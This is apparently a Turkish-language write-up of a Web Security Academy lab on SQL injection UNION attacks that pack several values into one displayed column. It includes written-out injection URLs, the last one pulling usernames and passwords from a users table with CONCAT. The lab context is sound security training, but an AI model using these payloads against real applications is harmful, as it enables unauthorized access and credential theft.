 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

Bu lab ortamında da tek bir kolon olduğunda birden fazla veriyi nasıl alabileceğimizle ilgili bir çalışma mevcut. Yani birden fazla kolon olmasına rağmen tek bir kolon ekrana yazılıyorsa bunu nasıl alırız diye düşünmemiz gerekmektedir. 

```html
SELECT a,b,c,d,e FROM x WHERE y = ???
```

Burada uygulamamızın hangi kolonundaki veriyi ekrana yazdırdığını tespit edelim öncelikle. Bir önceki lab ortamında yaptığımız gibi ilerleyebiliriz başlangıçta. Burada ekrana 2. kolonun yazıldığını görebiliriz. Ayrıca burada null kullanmamızın sebebi de postgreSQL veritabanında kolon tiplerinin aynı olması gerektiği içindir. null yerine başka herhangi bir değer girdiğimizde veri tipi uyuşmazlığı çıkabileceği için hata ile karşılaşabiliriz. null değeri mysql için de geçerlidir. 

```html
academy.net/filter?category=yenialakasizbirdeger' UNION SELECT null,'ilker' FROM users--
```

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-10.png)

Burada ‘ilker’ yazdığımız yerde farklı tabloların çıktılarını birleştirmemiz gerektiği için bu işlemi yapmalıyız. Bu şekilde ilerlediğimizde CONCAT ile birleştirme işlemini yapıp sonuçları getirebiliriz. 

```html
academy.net/filter?category=olmayanbirsonuc' UNION SELECT null,CONCAT(username,':::ilker:::',password) FROM users--
```
